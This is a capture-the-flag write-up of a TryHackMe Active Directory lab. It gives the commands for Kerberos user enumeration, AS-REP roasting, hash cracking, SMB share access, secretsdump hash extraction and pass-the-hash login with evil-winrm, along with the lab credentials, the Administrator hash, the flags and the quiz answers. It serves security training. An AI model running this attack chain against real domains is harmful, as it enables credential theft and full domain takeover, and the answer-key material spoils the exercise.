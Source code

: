 # Attacktive Directory Box Writeup
### Completed 23:22 29 DEC 21
### Donkeyk0ng787

#### BOX IP - 10.10.124.44

### Creds

	svc-admin:management2005
	backup@spookysec.local:backup2517860 

### Task 3 - Enumeration

	'Running a simple nmap scan
	nmap -sC -sV 10.10.124.44 -oN nmap/initial
	Gets us the domain spookysec.local'
	
	Question answers
	'enum4linux'
	'THM_AD'
	'.local'
	
### Task 4 - Enumerating Users via Kerberos

	'Using kerbrute to find the usernames using the following command
	./kerbrute_linux_386 userenum userlist.txt -d spookysec.local --dc spookysec.local
	This gets us a list of usernames'
	
	Question answers
	'userenum'
	'svc-admin'
	'backup'
	
### Task 5 - Abusing Kerberos

	'For this we use a script in impacket called GetNPUsers.py
	For this we use the following command to generate a file with the hashed password
	we can then put into hashcat.
	python3 GetNPUsers.py spookysec.local/ -dc-ip 10.10.124.44 -usersfile ~/THM/AttacktiveDirectory/usernames.txt -format hashcat -outputfile ~/THM/AttacktiveDirectory/hashes.txt
	From here we use the first part of the hash and match it to the hash type on the hashcat example wiki
	We see that it is Kerberos 5 AS-REP etype 23 which is mode number 18200
	We use the following hashcat command to crack the hash
	hashcat -m 18200 --force hashes.txt /usr/share/wordlists/rockyou.txt
	This gives us the password of
	management2005'
	
	Question answers
	'svc-admin'
	'Kerberos 5 AS-REP etype 23'
	'18200'
	'management2005'
	
### Task 6 - Enumeration - Back to Basic

	'Now that we have an account we can use smbclient to enumerate the shares using the command
	smbclient -L \\\\10.10.124.44 -U 'svc-admin'
	This lists for us the 6 shares on the spookysec.local domain
	We have access to a share in /backup which contains a txt file which contains an encoded string
	YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
	This is obviously base64 which we decode and get
	backup@spookysec.local:backup2517860'
	
	Question answers
	'smbclient'
	'-L'
	'6'
	'backup'
	'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw'
	'backup@spookysec.local:backup2517860 '
	
### Task 7 - Elevating Privileges in the Domain

	'Now that we have user credentials for the backup account of the domain controller, we can use another impacket tool
	secretsdump.py to retrieve all the password hashes that this user account has to offer. This will effectively give
	us full control over the AD domain.
	The usage of this tool is as follows
	python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.124.44
	This gives us the hashed version of the administrator password among many other things
	Administrator hash is 0e0363213e37b94221497260b0bcb4fc'
	
	Question answers
	'DRSUAPI'
	'0e0363213e37b94221497260b0bcb4fc'
	'pass the hash'
	'-H'
	
### Task 8 - Flag Submission

	'Using evil-winrm we can access the server and collect the flags
	Usage is as follows
	evil-winrm -i 10.10.124.44 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

	svc-admin flag
	'TryHackMe{K3rb3r0s_Pr3_4uth}'
	
	backup flag
	'TryHackMe{B4ckM3UpSc0tty!}'
	
	Administrator flag
	'TryHackMe{4ctiveD1rectoryM4st3r}'
	
	
	
	
	
	
	